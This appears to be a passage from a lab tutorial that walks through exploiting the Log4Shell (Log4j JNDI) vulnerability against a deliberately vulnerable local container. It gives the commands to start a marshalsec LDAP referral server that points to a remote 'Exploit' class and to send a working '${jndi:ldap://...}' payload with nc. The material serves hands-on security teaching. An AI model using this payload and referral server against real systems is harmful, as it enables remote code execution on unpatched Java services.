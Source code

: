 Get your host IP:
```bash
hostname -I | awk '{print $1}'
# Example output: 192.168.1.100
```

**Using Makefile (auto-detects IP):**
```bash
make ldap-server
# Or with custom IP: HOST_IP=192.168.1.100 make ldap-server
```

**Or manually:**
```bash
cd exploit/marshalsec
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.1.100:8888/#Exploit" 1389
```

**Replace `192.168.1.100` with your actual host IP**

You should see:
```
Listening on 0.0.0.0:1389
```

### Step 5: Run the Vulnerable Application

Open a new terminal and start the container:

**Using Makefile:**
```bash
make vulnerable-server
```

**Or manually with Podman:**
```bash
podman run --rm -p 8080:8080 --network=host log4jcve
```

**Note**: `--network=host` allows the container to access your host's LDAP server on port 1389

You should see:
```
Vulnerable server listening on port 8080
```

### Step 6: Exploit the Vulnerability

Open another terminal and send the malicious payload:

```bash
# Replace YOUR_HOST_IP with your actual IP (e.g., 192.168.1.100)
echo '${jndi:ldap://YOUR_HOST_IP:1389/Exploit}' | nc localhost 8080
```

**Example:**
```bash
echo '${jndi:ldap://192.168.1.100:1389/Exploit}' | nc localhost 8080
```
